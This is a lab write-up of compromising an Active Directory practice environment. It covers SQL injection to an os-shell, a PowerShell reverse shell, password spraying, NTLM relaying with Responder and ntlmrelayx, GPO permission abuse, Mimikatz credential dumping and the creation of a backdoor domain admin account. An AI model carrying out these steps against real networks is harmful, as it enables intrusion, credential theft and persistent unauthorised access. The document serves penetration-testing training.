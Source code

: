 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain

### Alternative route: password spraying
https://www.youtube.com/watch?v=hBvrC4t2hn8
Generate a list of passwords https://github.com/asciimoo/exrex


```
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!" > passwords.txt
```

msfconsole
auxiliary/scanner/http/owa_login
set pass_file passwords.txt
set user_file usernames.txt
set domain
set rhost 10.7.12.10

## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf


Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```


This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config


```
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


This shows that Server Admins has write permissions on the GPO.



```
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
```


We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to based on the GUID of the GPO.



```
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```


The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use:
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain


